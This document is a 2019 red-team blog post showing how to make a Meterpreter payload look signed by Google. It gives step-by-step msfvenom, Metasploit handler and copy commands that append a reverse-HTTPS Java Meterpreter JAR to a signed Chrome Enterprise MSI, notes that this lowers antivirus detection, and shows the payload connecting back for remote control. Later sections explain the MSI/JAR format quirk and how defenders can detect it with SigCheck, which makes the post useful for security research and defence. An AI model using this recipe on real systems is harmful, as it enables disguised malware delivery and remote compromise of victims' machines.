 ```yaml
---
layout: post
title: "Making Meterpreter Look Google Signed"
date: 2019-01-18
categories: security red-team
tags: meterpreter chrome msfvenom jar metasploit
permalink: /making-meterpreter-look-google-signed/
---
```


In this post I’ll use some of the information made public by VirusTotal in a [recent blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html) and show how you can easily create a Metasploit Meterpreter payload and append it to a signed MSI file. This will allow you to leverage the code signing from the MSI file to make your payload appear legitimately signed by Google, Inc. After I’ll cover a bit of discussion on why this technique is dangerously significant and how to investigate for its use.
We need a few prerequisites to start-

- Msfvenom
- A Google Chrome Enterprise MSI installer file
- A handler to listen for your Meterpreter session

To start, we need a Meterpreter payload in Java Archive (JAR) form. We can get this using msfvenom:

```
msfvenom -p java/meterpreter/reverse_https LHOST=<metasploit host> -f jar -o meterpreter-https.jar
```

This will output a JAR file containing the Java Meterpreter payload establishing a reverse shell over HTTPS. The payload provides us encryption to obscure commands while blending in with other HTTPS traffic. Feel free to leave the default port option, 8443, unchanged in this example. If we examine this generated payload with VirusTotal, we can see it’s definitely malicious and not signed in any way.

[https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details](https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details)

![](/assets/images/meterpreter-msi-jar/msfvenom-meterpreter-jar.png)

While here, go ahead and configure a handler to receive your Meterpreter session. In the Metasploit console, execute:

```
handler -p java/meterpreter/reverse_https -H 0.0.0.0 -P 8443
```

![](/assets/images/meterpreter-msi-jar/msf-reverse-handler.png)

Now we can use a Windows command prompt (cmd.exe) and the copy command to append our JAR file to an existing, signed MSI file. If you insist on using Linux or macOS to stage the payload, you can probably do the same append using DD. For this exercise I chose a Google Chrome Enterprise MSI installer file.

```
copy /b GoogleChromeStandaloneEnterprise64.msi + meterpreter-https.jar GoogleChromeStandaloneEnterprise64.jar
```

This action performs a binary file copy, combining the MSI and JAR files together to create a new JAR file.

![](/assets/images/meterpreter-msi-jar/copy-append-msi.png)


Now that the file exists, right-click and examine the file’s properties:

![](/assets/images/meterpreter-msi-jar/signing-info.png)

If we examine the file’s properties with VirusTotal, we can see the digital signature still exists, but it’s not valid according to VT’s tools. As a bonus, the file is detected by far fewer AV technologies than just the raw, non-appended payload.

[https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details](https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details)

Now we can actually execute the payload by double-clicking. Assuming everything has gone correctly, Meterpreter will execute within Java and connect back to your handler.

![](/assets/images/meterpreter-msi-jar/meterpreter-session.png)

From here you can move about the host with the privileges of whatever user executed the payload.

![](/assets/images/meterpreter-msi-jar/ls-results.png)

At the end of this path, you’ve generated a Meterpreter payload that isn’t signed itself but appears to be signed thanks to a quirk introduced by interactions between MSI and JAR files.

## How Is This Possible?
This trick is possible due to an issue with the MSI file format disclosed by VirusTotal in [this blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html). MSI files are compound storage files that resemble databases comprised of OLE streams. This means that the content of an MSI is not truly altered when appending data to the file. The OLE streams still exist within the file, and appended data exists outside those streams. Unfortunately, DFIR professionals are conditioned to playing by code signing rules for portable executables (PEs). In these cases, code signing is a method of ensuring executable code integrity from the publisher to the consumer. Changes to the PE file will cause a mismatch and invalidate the signing data. In the case of an MSI file, appending may not harm the original file’s integrity, so the signing information is still valid. The appended payload remains a stowaway.
When the file retains a MSI extension, it will open using Windows Installer/msiexec.exe. When the file gains a JAR extension, it will open with Java given its file association. When you inspect the file’s properties, the magic number/header bytes for the file identify it as a OLE Compound File, allowing tools to parse data within and read the digital signature.

But how can Java execute a MSI file? Even if it’s renamed? That’s the beautiful part of this technique! JAR files are glorified ZIP archive files. It turns out that Java and other tools that read ZIP data will read the data from the last bytes of a file toward the first, until it encounters ZIP header bytes. In this technique, the ZIP header will occur before the MSI content. So the original MSI is not processed by Java.

## Why Is This Significant?
This is significant because it challenges how we think about digital signatures and code signing. We’ve been conditioned to think a change to a file automatically invalidates a code signature. Instead we need to take into account the variable of individual file format. What matters is the integrity of signature-guaranteed content. We need to recognize that some file changes do not trespass into the guaranteed content. Thus, no integrity is violated.
This also presents another question- Can we reorient software and security controls to recognize when a file should not be associated with appended content? Some investigators and security tools use digital signatures to shortcut decisions on the legitimacy of software. Instead, signatures should be corroborating evidence in the legitimacy decision.

In addition, this technique shows us that traditional code signing is not the only way to generate a signed malicious payload. You can sit your payload next to something already signed if the file format allows.
What value does this give adversaries? I think the technique is best suited for payload delivery. Yes, an adversary may compress files for exfiltration into a ZIP archive and append it to a MSI file to bypass data loss protection controls. I don’t think that value significantly outstrips the use of packing and encryption to hide data in an obfuscated form for exfil.

## Detecting and Investigating
Detecting an appended payload during execution will likely be difficult. Endpoint detection and response tools will observe Java executing the payload, but will not show signature data of the payload itself. Behavioral detection will rely on the payload resembling traits of Java malware. AV technology will recognize file types, but depending on configurations and specifics may not recognize the appended payload. The best way to detect this? Look for Java executing JARs from user-writable folders with suspicious network connections and establishing persistence mechanisms.

Investigating appended payloads is light work with Sysinternals SigCheck after version 2.70. This tool will validate the MSI’s digital signature and flag when appended content is present. This functionality has also been added to VirusTotal. If you want to get the original appended payload and separate it from the MSI, you can use a hex editor and cut/paste bytes after the ZIP header into a new file.